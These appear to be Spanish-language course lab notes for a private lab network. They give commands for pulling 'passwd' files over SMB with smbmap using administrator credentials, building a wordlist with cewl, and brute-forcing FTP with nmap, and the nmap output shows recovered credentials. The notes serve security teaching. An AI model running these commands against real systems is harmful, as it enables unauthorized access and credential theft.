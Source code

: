 Estructura del lab:
![[lab11.png]]


## Exfiltracion a traves de directorios compartidos por SMB
Usar el siguiente comando para descargar archivos disponibles:
`smbmap -H 192.168.11.3 -u administrator -p asdf1234 -q -R --depth 2 --exclude print$ IPC$ -A 'passwd'`

## Diccionarios de contraseñas de palabras comunes contra objetivos concretos
Usar siguiente comando: `cewl -m 5 http://192.168.11.3/eii/ -w passwords.txt`

## Ataque con nmap - fuerza bruta
La salida de ejecutar el siguiente comando es el siguiente: 
`nmap --script  ftp-brute -p21 --script ftp-brute --script-args="userdb=users.txt,passdb=passwords.txt" 192.168.11.3 -oN salida`

```
Nmap scan report for lab11_kali_vuln.lab11_lab11_net (192.168.11.3)
Host is up (0.00020s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     remotessiuser:ingenieriainformatica - Valid credentials
|_  Statistics: Performed 55 guesses in 14 seconds, average tps: 3.9

```


## Searchploit
Mirar en guiones del chaval.